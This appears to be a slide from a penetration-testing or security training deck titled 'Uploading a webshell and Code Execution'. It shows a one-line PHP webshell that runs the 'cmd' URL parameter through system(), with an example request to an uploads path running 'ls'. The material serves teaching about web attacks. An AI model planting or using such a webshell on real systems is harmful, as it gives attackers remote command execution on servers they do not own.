

# Uploading a webshell and Code Execution
<? php
system($_GET['cmd'])
?>
This code when put into ANY webpage can be a small webshell.

The code will take the content of the parameter cmd and executes it... i.e.:
192.168.1.130/admin/uploads/shell.php?cmd=ls